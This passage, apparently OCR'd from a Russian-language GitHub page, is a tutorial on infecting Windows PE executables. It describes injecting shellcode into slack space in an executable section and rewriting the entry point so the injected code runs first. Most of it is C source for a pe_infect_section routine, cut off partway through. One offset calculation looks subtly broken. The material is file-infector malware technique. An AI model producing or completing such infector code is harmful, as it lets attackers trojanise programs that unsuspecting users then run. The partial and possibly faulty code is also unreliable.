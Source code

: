     // При обнаружении x64 сигнатуры повторно считывается ntHeader64
    if (ntHeader->nt_optional_header.magic == IMAGE_NT_OPTIONAL_64_MAGIC) {
        if (fseek64(f, dosHeader->e_lfanew, SEEK_SET) < 0) {
            return -7;
        }
        if (fread(ntHeader64, sizeof(pe64_nt_header), 1, f) == 0) {
            return -8;
        }
    }

    return 0;
}

Внимательно нужно сохранять DOS гэп (между DOS заголовком и PE заголовком) и секционный гэп (между таблицей секций и данными первой секции). Это нужно для правильного формирования структуры PE.

## Логика внедрения

Способ 1: Инжекция в существующую секцию
Распространённый способ поиск первой исполняемой секции по флагам SECTION_CHARACTER_EXECUTABLE, проверка наличия дыр или использования места в конце секции (если SizeOfRawData > Misc.VirtualSize). Затем туда прописывается шеллкод, а EntryPoint правится, чтобы при старте управление передавалось инъект коду. Функция возвращает коды ошибок, если что то пошло не так (коллизии с выравниванием, отсутствие места и тд). Фрагмент подобной инъекции x32: 

int pe_infect_section(pe_nt_header* nt_header, list_pe_section_t sections,
                      unsigned char* xcode, uint32_t xcode_size, int thread_flag)
{
    if (!nt_header || !sections || !xcode || *xcode == '\0') {
        return -1;
    }

    // Поиск PE секции
    list_pe_section_t codeSect = sections;
    while (codeSect) {
        if (codeSect->header.Characteristics & SECTION_CHARACTER_EXECUTABLE) {
            break;
        }
        codeSect = codeSect->next;
    }
    if (!codeSect) {
        return -2;
    }

    // Определение смещения для вставки
    uint32_t injection_xcode_offset = 0;
    if (codeSect->header.SizeOfRawData > codeSect->header.Misc.VirtualSize) {
        // Если секция имеет байты сверх
        uint32_t delta = codeSect->header.SizeOfRawData - codeSect->header.Misc.VirtualSize;
        if (delta >= nt_header->nt_optional_header.file_alignment) {
            return -3;
        }
        for (uint32_t i = 0; i < delta; i++) {
            if (codeSect->data[codeSect->header.Misc.VirtualSize + i] != '\0') {
                return -4;
            }
        }
        injection_xcode_offset = codeSect->header.Misc.VirtualSize;
    } else {
        // Поиск нулевых DWORD
        uint32_t value = 0;
        for (uint32_t i = 0; i < codeSect->header.SizeOfRawData / sizeof(value); i++) {
            memcpy(&value, codeSect->data + i * sizeof(value), sizeof(value));
            if (value == 0) {
                injection_xcode_offset = (i - 1) * sizeof(value) + 1;
                break;